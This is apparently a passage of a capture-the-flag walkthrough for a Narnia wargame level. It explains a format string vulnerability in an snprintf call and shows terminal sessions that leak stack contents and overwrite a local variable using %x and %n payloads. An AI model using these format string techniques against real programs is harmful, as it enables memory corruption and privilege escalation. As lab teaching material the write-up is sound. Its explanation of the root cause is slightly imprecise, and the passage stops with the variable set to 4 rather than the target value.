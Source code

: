 There is a local_c variable being set to 1 (this is the i) and stays unchanged. We can see that there is an if statement, and within it /bin/sh gets executed as the narnia6 user. However, due to the local_c variable staying unchanged, the if statement is never run. From the code, we can deduce that there is a vulnerability in the following line\: snprintf(local_4c,0x40,*(char **)(param_2 + 4))\;. This may be surprising, as the manual page for snprintf encourages its usage\:

BUGS  
      Because sprintf() and vsprintf() assume an arbitrarily long string, callers must be careful not to overflow the actual space\; this is often impossible to assure. Note that the length of the strings produced is locale-de‐pendent and difficult to predict.  Use snprintf() and vsnprintf() instead (or asprintf(3) and vasprintf(3)).

       Code such as printf(foo)\; often indicates a bug, since foo may contain a % character. If foo comes from un‐trusted user input, it may contain %n, causing the printf() call to write to memory and creating a security hole.

The security hole within this function lies in the fact that it uses a buffer of a fixed length with no boundary checks[[11]](#ftnt11).

(snprintf) is safe as you long as you provide the correct length for the buffer. snprintf does guarantee that the buffer won't be overwritten, but it does not guarantee null-termination.

### Format String Exploit

Therefore, upon providing a format character such as %x, the function will spit out addresses from the stack.

#### POC

narnia5@narnia\:/narnia$ ./narnia5 %x  
Change i's value from 1 -> 500. No way...let me give you a hint!  
buffer \: [f7fc5000] (8)  
i = 1 (0xffffd5f0)

Despite only providing %x as the input, we can see the buffer contains 8 bytes. The methodology behind a format string attack is finding the address of a local variable that we would like to overwrite (this is given to us as 0xffffd5f0). After discovering the address of the targeted variable, we need to determine where the input gets stored in memory. After finding this information, we can finally overwrite the variable by providing its address followed by the %n format specifier.

Providing the input string of AAAA followed by the %x format specifier, we can immediately see the position of the input in the stack\:

{% highlight bash %}
narnia5@narnia\:/narnia$ ./narnia5 AAAA%x  
Change i's value from 1 -> 500. No way...let me give you a hint!  
buffer \: [AAAA41414141] (12)  
i = 1 (0xffffd5f0)
{% endhighlight %}

Therefore, replacing AAAA with the address of the local i variable followed by the %n format specifier will successfully overwrite the variable.

{% highlight bash %}
narnia5@narnia\:/narnia$ ./narnia5 $(python -c "print '\\xf0\\xd5\\xff\\xff%n'")  
Change i's value from 1 -> 500. No way...let me give you a hint!  
buffer \: [] (4)  
i = 4 (0xffffd5f0)
{% endhighlight %}
